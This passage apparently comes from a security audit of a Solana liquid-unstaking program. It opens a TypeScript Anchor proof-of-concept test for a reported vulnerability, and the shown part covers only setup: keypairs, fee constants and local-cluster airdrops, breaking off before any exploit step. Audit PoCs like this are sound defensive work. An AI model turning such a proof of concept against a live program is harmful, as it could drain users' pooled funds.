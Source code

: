 
The following PoC presents the issue:

```ts
describe.only("liquid-unstaker-PoC-1", () => {

  // Configure the client to use the local cluster.
  anchor.setProvider(anchor.AnchorProvider.env());
  const provider = anchor.getProvider();

  const program = anchor.workspace.LiquidUnstaker as Program<LiquidUnstaker>;

  // Keypairs
  const userKeypair = Keypair.generate();
  const userSolKeypair = Keypair.generate();
  const managerFeeAccount = Keypair.generate();
  const adminKeypair = Keypair.generate();

  // Accounts that are reused through the tests
  let poolAccount: PublicKey;
  let poolBump: number;
  let solVault: PublicKey;
  let lpMintPubkey: PublicKey;
  let userLpAccount: PublicKey;
  let victimLpAccount: PublicKey;

  // Constants
  const feeMax = Math.floor(0.08 * FEE_PCT_BPS);    // 8%
  const feeMin = Math.floor(0.001 * FEE_PCT_BPS);   // 0.1%
  const minSolForMinFee = new anchor.BN(100 * LAMPORTS_PER_SOL);
  const managerFeePct = 10 // 10%
  const depositAmount = minSolForMinFee.add(new anchor.BN(100 * LAMPORTS_PER_SOL));
  const secondDepositAmount = depositAmount.div(new anchor.BN(2));
  let lpAmountFirstDeposit = 0;
  let lpAmountSecondDeposit = 0;

  const stakePoolAddress = new PublicKey("Fu9BYC6tWBo1KMKaP3CFoKfRhqv9akmy3DuYwnCyWiyC");

  before(async () => {
    // Airdrop SOL to user and admin
    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        userKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        adminKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        managerFeeAccount.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );    
    
    await provider.connection.confirmTransaction(
```